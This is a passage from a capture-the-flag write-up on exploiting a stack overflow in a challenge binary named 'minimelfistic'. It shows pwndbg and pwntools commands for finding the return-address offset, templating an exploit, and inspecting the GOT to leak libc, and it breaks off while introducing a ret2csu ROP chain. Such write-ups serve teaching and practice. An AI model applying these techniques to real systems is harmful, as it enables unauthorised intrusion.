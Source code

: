 ```

pwndbg> cyclic -l 0x61617361
71
```

We can conclude that we need `72 bytes (including the "9")`  before we hit the return address offset, so we can note this and begin writing our script.

## Templating an exploit
There is a cool python module for exploitation that generates template-ish pwntools exploit. It is pretty simple to use and i like to use it since it makes me win a lot of time, you can use it the following way.
```
$ pwn template ./minimelfistic > exploit.py
```

Then you can start writing your exploit inside this file, if you want to debug it you can run it with `GDB` as argument `e.g : python3 exploit.py GDB` will spawn the program inside gdb so you can step through the program.

## Obtain LIBC base address
Now we know the offset of our program, we need to leak a function from libc so we can leak the base address of libc.

So i headed inside Python IDLE, and i typed the following commands.
```
>>> import pwn  
>>> e = pwn.ELF("./minimelfistic")  
[*] '/challenge/pwn_minimelfistic/minimelfistic'  
   Arch:     amd64-64-little  
   RELRO:    Full RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x3ff000)  
>>> e.got  
{'__libc_start_main': 6303728, '__gmon_start__': 6303736, 'stdout': 6303760, 'stdi  
n': 6303776, 'write': 6303656, 'strlen': 6303664, 'alarm': 6303672, 'read': 630368  
0, 'srand': 6303688, 'time': 6303696, 'setvbuf': 6303704, 'sleep': 6303712, 'rand'  
: 6303720}
```

Looking at the output, we see the .got table of our binary which contains address of functions that are dynamically linked.

We need a function that can output the flag to the screen, something like a `sendfile, puts or write`. In our case we can see that we have the `write` function available... we will use it.

The `write` function is a little bit harder to execute in a ROP Chain than the `puts`, since write requires 3 arguments instead of 1. This means we will need to populate `rdi, rsi and rdx` instead of just `rdi`.

Unfortunately there is not enough gadget to populate the `rdx` register with the value we want, so we will need to rely on another technique... RET2CSU !!!
